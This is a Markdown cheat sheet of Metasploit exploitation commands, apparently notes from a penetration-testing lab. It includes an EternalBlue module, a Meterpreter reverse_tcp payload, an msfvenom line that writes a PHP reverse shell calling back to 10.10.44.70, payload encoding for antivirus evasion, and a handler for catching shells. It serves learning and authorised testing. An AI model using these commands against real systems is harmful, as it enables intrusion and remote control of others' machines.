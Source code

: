 # Cheatsheet — Metasploit Exploitation
| Command / Action | Example | Purpose |
|---|---|---|
| Start msfconsole | `msfconsole` | Launch Metasploit interactive console |
| Search modules | `search ms17-010` or `search type:auxiliary vnc` | Find exploits/auxiliaries/payloads by keyword, CVE, type, platform |
| Use module | `use exploit/windows/smb/ms17_010_eternalblue` or `use 2` | Enter module context |
| Module info | `info` or `info <module>` | View module metadata, targets, caveats, references |
| Show options | `show options` | List required/optional settings for current module |
| Set parameter | `set RHOSTS 10.10.12.229` | Configure module-scoped option |
| Set global parameter | `setg LHOST 10.10.44.70` | Make option persist across modules |
| Unset / flush | `unset RHOSTS` / `unset all` / `unsetg LHOST` | Remove single/all/global settings |
| Show payloads | `show payloads` | List payloads compatible with current exploit |
| Choose payload | `set PAYLOAD windows/x64/meterpreter/reverse_tcp` | Select payload for exploit |
| Run / exploit | `exploit` or `run` | Launch the module |
| Run and background | `exploit -z` | Launch and immediately background the session |
| Safe check | `check` | Probe target for vulnerability (when supported) |
| List sessions | `sessions` | Show active sessions created by exploits |
| Interact session | `sessions -i <id>` | Attach to a session for interaction |
| Background session | `background` or `CTRL+Z` | Send interactive session to background |
| Kill session(s) | `sessions -k <id>` / `sessions -K` | Terminate session(s) |
| Upgrade shell | `sessions -u <id>` | Attempt to upgrade a shell to Meterpreter |
| Run command on session | `sessions -c 'whoami' -i <id>` | Execute command on a session non-interactively |
| Run OS commands from msfconsole | `exec: <command>` or just `ls` | Execute local OS commands (limited features) |
| Start PostgreSQL (Linux) | `systemctl start postgresql` | Start DB backend for msfdb |
| Initialize DB | `sudo -u postgres msfdb init` | Create Metasploit DB (run non-root/postgres) |
| Check DB status | `db_status` | Verify connection to PostgreSQL backend |
| Workspaces list/add/switch | `workspace` / `workspace -a name` / `workspace name` | Manage project isolation |
| Run Nmap + import | `db_nmap -sV -p- 10.10.12.0/24` | Run Nmap and store results in DB |
| List hosts/services | `hosts` / `services` | Query DB-imported hosts and services |
| Populate module RHOSTS from DB | `hosts -R` (inside module) | Load saved hosts into module RHOSTS |
| Find scanners | `search portscan` / `search type:auxiliary smb` | Discover Metasploit scanning modules |
| Run scanner | `use auxiliary/scanner/portscan/tcp` → `set RHOSTS ...` → `run` | Perform in-console port/service scans |
| UDP quick sweep | `use auxiliary/scanner/discovery/udp_sweep` → `run` | Fast check for common UDP services |
| Generate payload (msfvenom) | `msfvenom -p php/reverse_php LHOST=10.10.44.70 LPORT=7777 -f raw > shell.php` | Create payload in chosen format |
| List msfvenom payloads/formats | `msfvenom -l payloads` / `msfvenom --list formats` | View available payloads / output formats |
| Encode payload (msfvenom) | `-e php/base64` | Encode payload (obfuscation, not guaranteed AV bypass) |
| Make payload executable | `chmod +x rev_shell.elf` | Ensure correct permissions on *nix binaries |
| Start handler | `use exploit/multi/handler` → `set payload ...` → `set LHOST ...` → `run` | Catch reverse shells / Meterpreter callbacks |
| Use DB creds/wordlists in scanners | `set DB_ALL_CREDS true` / `set PASS_FILE /path/to/wordlist` | Leverage DB-stored credentials and wordlists |
| Tune performance/noise | `set THREADS 10` / `set CONCURRENCY 20` / `set DELAY 50` | Balance scan speed vs detectability |
| Save reproducible notes | Record module path, options, payload, workspace, sessions, outputs | For reporting and repeatability |

